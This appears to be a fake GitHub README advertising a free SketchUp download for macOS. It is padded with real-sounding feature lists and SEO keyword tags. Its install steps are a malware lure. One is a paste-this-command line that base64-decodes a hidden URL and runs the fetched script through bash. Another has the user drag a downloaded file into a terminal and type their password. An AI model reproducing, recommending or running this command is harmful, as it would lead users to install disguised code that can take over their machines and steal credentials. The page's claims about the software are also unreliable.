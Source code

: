 # SketchUp for macOS – 3D Modeling Made Simple

![SketchUp Screenshot](https://i.ytimg.com/vi/XyKHK6O6NdA/maxresdefault.jpg)

## 📥 Download SketchUp for macOS

[![⬇️ Download SketchUp Mac](https://img.shields.io/badge/Download-SketchUp%20Mac-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/SketchUp)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.  
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is SketchUp for Mac?

SketchUp is a user-friendly 3D modeling tool designed for architects, interior designers, engineers, and creators of all skill levels. Whether you’re designing a house, creating furniture layouts, or crafting game environments, SketchUp provides intuitive controls and real-time rendering feedback.

On macOS, SketchUp runs seamlessly on both Intel and Apple Silicon devices. With support for Enscape and V-Ray rendering plug-ins, it allows you to elevate your visuals and presentations. It's a go-to solution for professionals and hobbyists looking to create precise and visually stunning 3D content.

---

![SketchUp Interface](https://global.discourse-cdn.com/sketchup/original/3X/1/7/17cd989945be30bec3a75df9cf16b6fdc479a528.png)

---

## ⚙️ Key Features

- 🏠 Architectural & Interior 3D Modeling  
- 🎮 Game Design & Environment Sketching  
- 🌟 Enscape & V-Ray Rendering Support  
- 🧰 2D Drawing & Layout Tools  
- 📐 Precision Measurement & Guides  
- 🌍 Google Earth & Geo-Modeling Integration  
- 📁 Import/Export DWG, DXF, 3DS, and more  
- 💻 Optimized for macOS (Intel + M1/M2/M3)  
- 🌐 3D Warehouse Access for Components  
- 🖱️ Custom Shortcuts and Extension Support  

---

## 📦 System Requirements

- macOS 10.15 or later  
- Intel or Apple Silicon (M1/M2/M3)  
- 8 GB RAM minimum  
- OpenGL 3.1 compatible GPU  
- Internet for license verification and updates  

---

## 🔍 Tags

sketchup mac, enscape mac, enscape for mac, sketch up mac, sketch up for mac, sketchup macbook, sketchup free mac, sketchup free download mac, vray for mac, v ray mac, sketchup osx, sketch up download mac, download sketch up mac, mac sketch up, mac sketchup download, sketch up for mac free, sketch up free for mac, sketch up free mac, sketch up mac free, sketchup for free mac, sketchup mac os x, sketchup mac download

---
